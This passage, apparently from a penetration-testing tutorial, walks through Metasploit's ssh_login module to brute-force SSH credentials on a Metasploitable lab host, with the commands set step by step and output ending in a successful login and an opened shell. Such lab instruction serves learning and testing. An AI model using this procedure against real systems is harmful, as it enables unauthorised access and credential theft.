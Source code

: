 ```
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts
```
We need to set a few things in order for this to work properly. First, **RHOSTS** is the IP address of our target.
```
msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 172.16.1.102
rhosts => 172.16.1.102
```

Next, `STOP_ON_SUCCESS` will stop after finding valid credentials.
```
msf5 auxiliary(scanner/ssh/ssh_login) > set stop_on_success true
stop_on_success => true
```

Then, `USER_FILE` is a list of usernames.

```
msf5 auxiliary(scanner/ssh/ssh_login) > set user_file users.txt
user_file => users.txt
```

And `PASS_FILE` is a list of passwords.

```
msf5 auxiliary(scanner/ssh/ssh_login) > set pass_file passwords.txt
pass_file => passwords.txt
```
Finally, there's `VERBOSE`, which will display all attempts.

```
msf5 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
```

For the user and password files, I used a shortened list containing known credentials for the purpose of this demonstration. In a real attack, you would likely want to use one of the well-known wordlists or a custom one to fit your needs.
We should be all set now. Type `run` at the prompt to kick it off:
```
msf5 auxiliary(scanner/ssh/ssh_login) > run
[-] 172.16.1.102:22 - Failed: 'user:password'
[-] 172.16.1.102:22 - Failed: 'user:Password123'
[-] 172.16.1.102:22 - Failed: 'user:msfadmin'
[-] 172.16.1.102:22 - Failed: 'user:admin'
[-] 172.16.1.102:22 - Failed: 'user:default'
[-] 172.16.1.102:22 - Failed: 'user:root'
[-] 172.16.1.102:22 - Failed: 'user:toor'
[-] 172.16.1.102:22 - Failed: 'user:hello'
[-] 172.16.1.102:22 - Failed: 'user:welcome'
[-] 172.16.1.102:22 - Failed: 'user:hunter2'
[-] 172.16.1.102:22 - Failed: 'msfadmin:password'
[-] 172.16.1.102:22 - Failed: 'msfadmin:Password123'
[+] 172.16.1.102:22 - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Command shell session 1 opened (172.16.1.100:37615 -> 172.16.1.102:22) at 2020-08-09 15:06:58 -0600
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```